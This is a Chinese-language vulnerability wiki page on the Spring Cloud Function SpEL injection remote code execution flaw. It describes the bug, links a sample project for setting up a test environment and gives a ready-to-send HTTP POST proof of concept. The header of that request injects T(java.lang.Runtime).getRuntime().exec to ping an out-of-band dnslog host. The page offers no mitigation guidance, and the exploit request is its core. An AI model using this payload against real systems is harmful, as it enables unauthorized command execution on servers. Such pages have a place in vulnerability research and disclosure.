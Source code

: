 # Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>Spring Cloud Function </a-checkbox></br>

## 环境搭建

```php
https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo
```

## 漏洞复现

搭建后访问

![img](/assets/PeiQi-Wiki/img/1648445963507-0e8edf45-ca97-444a-b9f2-6e1ce7a1c838.png)

发送POC

```php
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

![img](/assets/PeiQi-Wiki/img/1648446987819-85f1a250-ed53-4794-9168-286030887cc4.png)